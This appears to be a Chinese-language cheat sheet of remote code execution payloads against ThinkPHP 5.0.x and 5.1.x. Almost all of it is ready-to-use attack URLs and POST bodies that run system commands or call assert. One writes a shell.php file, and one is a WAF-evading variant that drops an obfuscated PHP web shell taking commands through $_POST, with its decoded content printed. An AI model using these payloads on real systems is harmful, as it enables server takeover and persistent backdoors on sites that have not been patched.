 ThinkPHP 5.0.0~5.0.23 RCE 漏洞
payload-1：
http://127.0.0.1/public/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&get[]=whoami

payload-2：
http://127.0.0.1/public/index.php?s=captcha

POST:
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

ThinkPHP 5.1 RCE

http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
执行之后会在根目录下写入shell.php ，内容是输出phpinfo();


5.1.x php版本 > 5.5

http://127.0.0.1/index.php?s=index/think\request/input?data[]=phpinfo()&filter=assert
http://127.0.0.1/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
http://127.0.0.1/index.php?s=index/\think\template\driver\file/write?cacheFile=shell.php&content=<?php%20phpinfo();?>


5.0.x php版本>=5.4
http://127.0.0.1/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()

过狗的：
http://127.0.0.1/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=@file_put_contents(base64_decode(MTI1ODQucGhw),base64_decode(b2suPD9waHAgJHsiYHt7eyJeIj88Pi8ifVthXSgkX1BPU1RbeF0pOzs7))
文件名：12584.php，马儿内容为：ok.<?php ${"`{{{"^"?<>/"}[a]($_POST[x]);;;


